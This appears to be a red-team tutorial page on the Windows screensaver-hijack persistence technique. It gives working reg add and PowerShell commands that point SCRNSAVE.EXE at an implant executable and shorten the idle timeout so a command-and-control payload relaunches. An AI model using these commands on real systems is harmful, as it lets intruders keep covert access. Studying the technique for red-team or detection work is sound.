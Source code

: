 # Screensavers Hijack

#### Screensavers are part of Windows functionality and enable users to put a screen message or a graphic animation after a period of inactivity. This feature of Windows it is known to be abused by threat actors as a method of persistence.

#### &#x20;This is because screensavers are executable files that have the `.scr` file extension and are executed via the `scrnsave.scr` utility.

{% hint style="warning" %}
This will not work in systems that don't have screensaver activated or in AD environments where the screensaver is manager by domain group policies.
{% endhint %}

Screensaver settings are stored in the registry and the values that are considered most valuable from an offensive perspective are:

```
HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut
```

Registry keys can be modified or added via the command prompt or from a PowerShell console. Since the .scr files are essentially executables both extensions can be used to the file that will act as the implant

```
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\tmp\pentestlab.exe
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\tmp\pentestlab.scr
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'c:\tmp\pentestlab.exe'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'c:\tmp\pentestlab.scr'
```

Once the period of inactivity is passed the arbitrary payload will executed and a communication will the command and control will established again.

another thing to consider is the timeout when setting the registry key.

```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "c:\rto\pers\implant\implant.exe" /f
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "60" /f
```

{% hint style="info" %}
The issue with the persistence technique that utilize screensavers is that the session will drop when the user returns back and the system is not in idle mode. However red teams can perform their operations during the absence of the user. If screensavers are disabled by group policy this technique cannot be used for persistence.
{% endhint %}
